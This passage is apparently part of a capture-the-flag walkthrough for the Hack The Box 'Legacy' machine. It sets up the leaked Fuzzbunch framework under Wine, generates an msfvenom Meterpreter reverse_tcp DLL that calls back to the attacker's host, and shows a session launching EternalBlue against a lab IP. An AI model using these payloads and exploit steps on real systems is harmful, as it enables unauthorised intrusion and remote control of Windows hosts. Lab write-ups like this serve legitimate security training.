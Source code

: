   - Create script to run fuzzbunch
  ```
  sudo nano /usr/local/bin/fuzzbunch

    export WINEPREFIX=$HOME/.wine-fuzzbunch
    cd $HOME/.wine-fuzzbunch/drive_c/fuzzbunch-debian/windows
    wine ../../Python26/python.exe fb.py
  ```
  ```
  # Change to executable
  sudo chmod +x /usr/local/bin/fuzzbunch
  ```

2. Make the shellcode payload We need a DLL shellcode payload.
  ```
  $ cd $HOME/.wine-fuzzbunch/drive_c/
  $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[INSERT_YOUR_IP_HERE] LPORT=60000 -f dll -o shell.dll
  ```

3. Running fuzzbunch

```
$ fuzzbunch
...
[?] Default Target IP Address [] : 10.10.10.4
[?] Default Callback IP Address [] : 10.10.14.6    
[?] Use Redirection [yes] : no

[?] Base Log directory [C:\fuzzbunch-debian\logs] :
[*] Checking C:\fuzzbunch-debian\logs for projects
Index     Project                 
-----     -------                 
0         Create a New Project    

[?] Project [0] :
[?] New Project Name : legacy
[?] Set target log directory to 'C:\fuzzbunch-debian\logs\legacy\z10.10.10.4'? [Yes] :

[*] Initializing Global State
[+] Set TargetIp => 10.10.10.4
[+] Set CallbackIp => 10.10.14.6

[!] Redirection OFF
[+] Set LogDir => C:\fuzzbunch-debian\logs\legacy\z10.10.10.4
[+] Set Project => legacy

fb >
```

3. Executing EternalBlue

```
fb > use EternalBlue

[!] Entering Plugin Context :: Eternalblue
[*] Applying Global Variables
[+] Set NetworkTimeout => 60
[+] Set TargetIp => 10.10.10.4
[*] Applying Session Parameters
[*] Running Exploit Touches

[!] Enter Prompt Mode :: Eternalblue
...
[?] Execute Plugin? [Yes] : y    
[*] Executing Plugin
[*] Connecting to target for exploitation.
    [+] Connection established for exploitation.
```